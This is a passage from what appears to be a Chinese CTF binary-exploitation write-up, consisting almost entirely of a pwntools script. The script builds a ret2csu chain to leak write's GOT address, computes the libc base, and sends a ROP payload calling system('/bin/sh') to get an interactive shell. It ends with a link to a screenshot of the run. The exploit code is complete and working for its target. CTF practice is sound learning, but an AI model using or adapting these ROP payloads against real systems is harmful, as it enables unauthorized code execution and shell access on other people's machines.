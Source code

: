 ```bash
    # rbp should be 1,enable not to jump
    # r12 should be the function we want to call()
    # rdi=edi=r15d
    # rsi=r14
    # rdx=r13
    # csu(0, 1, fun_got, rdx, rsi, rdi, last)
    payload = b""
    payload += p64(csu_end_addr) 
    payload += p64(rbx)+p64(rbp)+p64(r12)+p64(r13)+p64(r14)+p64(r15)
    payload += p64(csu_front_addr)
    payload += b'a' * 0x38  
    payload += p64(last)    
    return payload 
pop_rdi_ret = 0x401333 
write_got = elf.got['write']
write_plt = 0x401080#elf.plt['write']
ret_addr = 0x40101a
rsi = 0x401331

payload1 = b'a'*0x10+b'\x00'*8 + csu(0,1,1,elf.got['write'],0x30,write_got,0x4011FD)# + p64(rsi) + p64(write_got) + p64(0) + p64(write_plt) + p64(0x4011FD)
#gdb.attach(io)
#pause()
io.sendlineafter('backdoor!',payload1)

write_addr = u64(io.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
print(hex(write_addr))


libc_base = write_addr - libc.sym["write"]
system = libc_base + libc.symbols['system']
binsh = libc_base+next(libc.search(b"/bin/sh\x00"))

print(hex(libc_base))
print(hex(system))
print(hex(binsh))
payload2 = b"\x00".ljust(0x18,b'a') +p64(ret_addr)+ p64(pop_rdi_ret) +p64(binsh) + p64(system) #
gdb.attach(io)
pause()
io.sendlineafter('backdoor!',payload2)

io.interactive()
```

运行效果：

[![](assets/1705982215-65378ad279f96030c504f5cf80a295dc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121162339-613d835e-b836-1.png)
